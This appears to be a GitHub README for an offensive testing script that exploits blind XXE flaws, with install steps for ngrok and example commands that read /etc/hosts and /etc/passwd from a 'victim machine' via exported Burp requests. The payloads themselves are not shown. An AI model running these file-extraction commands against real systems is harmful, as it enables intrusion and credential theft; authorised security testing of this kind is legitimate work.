 # Blind XXE Xtractor BETA

Blind XXE Xtractor is a script created for educational purpose to test Blind XXE vulnerabilities in controlled environments, which has support for local and remote websites with XML requests. It's in BETA because I tested almost everything but it would give errors, so if you find an error please report it and I will try to fix it.

**WARNING!**  It might fail with some XML requests so don't completely believe it, try some manual methods to be sure.

## Prerequisites

- Some basic tools like *curl*
- [Burp Suite](https://portswigger.net/burp/releases#community)
- [Ngrok](https://ngrok.com/download) (Optional)

## Installation

### 1 Clone the repository

```bash
git clone https://github.com/mys3quel/Blind-XXE-Xtractor && cd Blind-XXE-Xtractor && chmod +x Blind-XXE-Xtractor.sh
```

## Remote configure

### 1 Install Ngrok

```bash
curl -s https://ngrok-agent.s3.amazonaws.com/ngrok.asc | sudo tee /etc/apt/trusted.gpg.d/ngrok.asc >/dev/null && echo "deb https://ngrok-agent.s3.amazonaws.com buster main" | sudo tee /etc/apt/sources.list.d/ngrok.list && sudo apt update && sudo apt install ngrok
```
[Download Ngrok](https://ngrok.com/download)

### 2 Configure Ngrok

```bash
ngrok config add-authtoken your_token_here
```
[Get your token here](https://dashboard.ngrok.com/get-started/your-authtoken)

## Usage

```bash
./Blind-XXE-Xtractor.sh -h
```

### Examples

#### Run script in guide mode
```bash
./Blind-XXE-Xtractor.sh -g
```

#### Read the /etc/hosts of the victim machine using the exported request from BurpSuite
```bash
./Blind-XXE-Xtractor.sh -b burpFile -f /etc/hosts
```

#### Read the /etc/passwd of the victim machine using the exported request from BurpSuite and a custom port for the connection
```bash
./Blind-XXE-Xtractor.sh -b burpFile -f /etc/passwd -p 90
```
